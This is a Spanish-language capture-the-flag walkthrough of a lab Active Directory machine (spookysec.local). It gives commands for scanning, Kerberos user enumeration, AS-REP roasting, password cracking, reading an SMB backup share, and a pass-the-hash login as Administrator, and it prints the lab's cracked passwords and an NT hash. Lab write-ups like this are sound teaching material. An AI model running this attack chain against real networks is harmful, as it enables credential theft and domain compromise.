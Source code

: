 # Fase de reconocimiento
Windows
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.209.100
```
![[Pasted image 20240605175535.png]]
## Reconocimiento de servicios
```
nmap -sCV -p53,80,88,135,139,445,464,3269,3389,49664,49665,49667,49669,49671 10.10.209.100
```
![[Pasted image 20240605174129.png]]
## Enumeration SMB
```
nmap --script "rdp-enum-encryption or rdp-ntlm-info" -p3389 -T4 10.10.209.100
```
![[Pasted image 20240605174712.png]]
```
enum4linux -a spookysec.local
```
![[Pasted image 20240605180741.png]]
![[Pasted image 20240605180811.png]]
## kerberos enumeracion ususarios
Nos descargamos la tool y descargamos un userlist dado
```
kerbrute userenum -d spookysec.local --dc spookysec.local userlist.txt -t 100
```
![[Pasted image 20240605223652.png]]
# Fase de ataque
Conseguimos un TGT (Ticket) de un usuario para intentar crackearlo
```
impacket-GetNPUsers -request -format john -no-pass spookysec.local/svc-admin
```
![[Pasted image 20240605223959.png]]
Crakeamos con John
```
john --wordlist=passwordlist.txt hash.txt
```
![[Pasted image 20240605224238.png]]
Vemos si funciona
```
crackmapexec smb spookysec.local -u 'svc-admin' -p 'management2005'
```
![[Pasted image 20240605224648.png]]
## SMB
Listamos shares compartidas
```
crackmapexec smb spookysec.local -u 'svc-admin' -p 'management2005' --shares
```
![[Pasted image 20240605225056.png]]
Vemos la share de backup
```
smbclient \\\\spookysec.local\\backup -U svc-admin --password="management2005"
```
Contiene las credenciales de backup
```
	get <archivo>
```
![[Pasted image 20240605225536.png]]
Comprobamos la contraseña
```
base64 -d backup_credentials.txt
```
```
crackmapexec smb spookysec.local -u 'backup' -p 'backup2517860'
```
![[Pasted image 20240605230804.png]]
## PassTheHash
El usuario backup tiene permiso para sacar los hashes
![[Pasted image 20240605230904.png]]
Copiamos el NTHash
Nos conectamos con el hash
```
evil-winrm -ip spookysec.local -u 'Administrator' -H 0e0363213e37b94221497260b0bcb4fc
```

